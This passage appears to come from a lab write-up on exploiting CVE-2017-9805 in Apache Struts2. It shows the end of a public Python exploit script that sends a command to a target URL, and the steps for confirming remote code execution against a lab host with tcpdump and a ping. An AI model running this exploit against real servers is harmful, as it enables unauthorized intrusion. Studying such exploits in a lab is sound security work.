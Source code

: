 
		url = sys.argv[1]

		headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0',
				'Content-Type': 'application/xml'}

		request = requests.post(url, data=exploit, headers=headers)
		print (request.text)

	if len(sys.argv) < 3:
		print ('CVE: 2017-9805 - Apache Struts2 Rest Plugin Xstream RCE')
		print ('[*] Warflop - http://securityattack.com.br')
		print ('[*] Greatz: Pimps & G4mbl3r')
		print ('[*] Use: python struts2.py URL COMMAND')
		print ('[*] Example: python struts2.py http://sitevulnerable.com/struts2-rest-showcase/orders/3 id')
		exit(0)
	else:
		exploration(sys.argv[2])
	```

### Remote code execution

=== "ping"

	Check remote code with `tcpdump`. Let's open tcpdump in Kali machine.

	``` bash
	sudo tcpdump -i eth0 icmp
	```

	Run exploit `42627.py`

	``` bash
	python3 42627.py http://192.168.110.137/orders/3 'ping -c 2 192.168.110.131' 
	```

	![4](img/4.png)
